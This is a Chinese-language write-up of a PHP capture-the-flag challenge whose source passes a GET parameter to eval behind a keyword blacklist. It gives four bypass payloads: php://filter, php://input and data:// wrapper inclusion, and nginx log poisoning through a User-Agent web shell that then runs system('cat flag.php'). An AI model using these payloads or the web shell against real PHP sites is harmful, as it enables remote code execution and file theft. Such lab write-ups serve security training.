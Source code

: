 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:23
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

flag

system

php

cat

sort

shell

.

空格

'

`

echo

;

(

:

"

<

=



还是利用之前的payload



## 第一种

include结合php://filter

```
?c=include$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```

![image-20250402182748390](./assets/image-20250402182748390.png)

![image-20250402182743573](./assets/image-20250402182743573.png)





## 第二种

include结合php://input

GET

```
?c=include$_GET[a]?>&a=php://input
```

POST

```
<?php system("cat flag.php")?>
```

![image-20250402182841464](./assets/image-20250402182841464.png)





## 第三种

include结合data://text/plain

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

![image-20250402183037027](./assets/image-20250402183037027.png)



## 第四种

日志注入

```
?c=include$_GET[a]?>&a=../../../../../var/log/nginx/access.log
```

![image-20250402183119973](./assets/image-20250402183119973.png)

bp抓包，修改UA头

```
ra<?php @eval($_POST[a]);?>1n3
```

![image-20250402183308046](./assets/image-20250402183308046.png)

![image-20250402183321679](./assets/image-20250402183321679.png)

GET

```
?c=include$_GET[a]?>&a=../../../../../var/log/nginx/access.log
```

POST

```
a=system("cat flag.php");
```

![image-20250402183343540](./assets/image-20250402183343540.png)